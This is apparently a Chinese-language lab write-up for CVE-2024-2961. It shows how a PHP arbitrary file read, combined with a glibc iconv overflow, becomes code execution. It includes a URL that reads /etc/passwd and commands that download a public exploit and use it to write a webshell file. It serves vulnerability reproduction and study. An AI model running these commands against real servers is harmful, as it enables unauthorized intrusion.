


# PHP利用GNU C Iconv将文件读取变成RCE（CVE-2024-2961）

GNU C 是一个标准的ISO C依赖库。在GNU C中，`iconv()`函数2.39及以前存在一处缓冲区溢出漏洞，这可能会导致应用程序崩溃或覆盖相邻变量。

如果一个PHP应用中存在任意文件读取漏洞，攻击者可以利用`iconv()`的这个CVE-2024-2961漏洞，将其提升为代码执行漏洞。

参考链接：

- <https://www.ambionics.io/blog/iconv-cve-2024-2961-p1>

## 漏洞环境

执行如下命令启动一个PHP 8.3.4服务器，其使用iconv 2.36作为依赖：

```
docker compose up -d
```

服务启动后，你可以通过`http://your-ip:8080/index.php?file=/etc/passwd`这个链接读取`/etc/passwd`文件。

## 漏洞复现

在使用原作者给出的[exploit](https://github.com/ambionics/cnext-exploits)前，你需要准备一个Linux环境和Python 3.10解释器。

安装依赖：

```
pip install pwntools
pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
```

然后从<https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py>下载POC并执行：

```
wget https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py
python cnext-exploit.py http://your-ip:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
```



可见，我们已经成功写入`shell.php`：


